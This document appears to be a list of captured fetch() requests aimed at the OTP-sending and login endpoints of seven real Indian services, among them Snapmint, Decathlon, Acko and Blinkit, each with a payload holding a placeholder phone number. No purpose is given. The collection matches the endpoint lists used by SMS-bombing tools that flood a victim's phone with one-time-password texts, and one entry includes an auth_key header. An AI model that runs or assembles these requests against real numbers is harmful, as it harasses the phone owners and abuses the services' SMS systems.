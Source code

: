 ### https://api.snapmint.com/v1/logins/send_otp
- payload -> {"mobile":"1234567890","type":"user","origin":"snap_checkout"}
- fetch("https://api.snapmint.com/v1/logins/send_otp", {
  "headers": {
    "content-type": "application/json; charset=UTF-8",
  },
  "body": "{\"mobile\":\"1234567890\",\"type\":\"user\",\"origin\":\"snap_checkout\"}",
  "method": "POST"
});

### https://www.decathlon.in/api/login/sendotp
- payload -> {"param":"1234567890","source":1}
- fetch("https://www.decathlon.in/api/login/sendotp", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json;charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "Referer": "https://www.decathlon.in/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"param\":\"1234567890\",\"source\":1}",
  "method": "POST"
});

### https://www.acko.com/lp/new-bike/api/send_otp
- payload -> {"phone":"1234567890"}
- fetch("https://www.acko.com/lp/new-bike/api/send_otp", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-landing-path": "/lp/new-bike",
    "x-landing-url": "https://www.acko.com/lp/new-bike/bike/checkout/details?proposal_id=MLhjPTzbTrGyjA1CBtz4MQ&step=details&flow=undefined",
    "Referer": "https://www.acko.com/lp/new-bike/bike/checkout/details?proposal_id=MLhjPTzbTrGyjA1CBtz4MQ&step=details&flow=undefined",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"phone\":\"1234567890\"}",
  "method": "POST"
});

### https://api.nnnow.com/d/apiV2/otp/generateOtp/v1/flash
- payload --> {"mobileNumber":"1234567890","otpTemplateId":"5b4e2e49b70e040008ffbcbe"}
- fetch("https://api.nnnow.com/d/apiV2/otp/generateOtp/v1/flash", {
  "headers": {
    "accept": "application/json",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "bbversion": "v2",
    "content-type": "application/json",
    "correlationid": "8d91e852-54e7-4653-bbd3-da4193b3c2e4",
    "module": "odin",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site",
    "Referer": "https://www.nnnow.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"mobileNumber\":\"1234567890\",\"otpTemplateId\":\"5b4e2e49b70e040008ffbcbe\"}",
  "method": "POST"
});

### https://www.playrummy.com/mobileLogin.php
- payload --> deviceid=WEB-YourIPAdressHere-1660066556&mobilenumber=1234567890&currenttimestamp=1660066619608&retrycount=0&appos=generic_website&signup=0&latitude=0&longitude=0&newaccount=0&register=0&encryptedkey=eefe02d5f0140c1a8d64eacde0bed7e2
- fetch("https://www.playrummy.com/mobileLogin.php", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest",
    "Referer": "https://www.playrummy.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "deviceid=WEB-YourIPAdressHere-1660066556&mobilenumber=1234567890&currenttimestamp=1660066619608&retrycount=0&appos=generic_website&signup=0&latitude=0&longitude=0&newaccount=0&register=0&encryptedkey=eefe02d5f0140c1a8d64eacde0bed7e2",
  "method": "POST"
});

### https://userauth.voot.com/usersV3/v3/checkUser
- payload --> {"type":"mobile","mobile":"1234567890","countryCode":"+91"}
- fetch("https://userauth.voot.com/usersV3/v3/checkUser", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json;charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site",
    "Referer": "https://www.voot.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"type\":\"mobile\",\"mobile\":\"1234567890\",\"countryCode\":\"+91\"}",
  "method": "POST"
});

### https://blinkit.com/v2/accounts/
- payload --> user_phone=1234567890
- fetch("https://blinkit.com/v2/accounts/", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "app_client": "consumer_web",
    "auth_key": "4e3a92e963f19dae3ca71ad372bb6e53d0c3c3493a4cd3bf33e376335b3a1757",
    "content-type": "application/x-www-form-urlencoded",
    "platform": "mobile_web",
    "rn_bundle_version": "1009003012",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "Referer": "https://blinkit.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "user_phone=1234567890",
  "method": "POST"
});
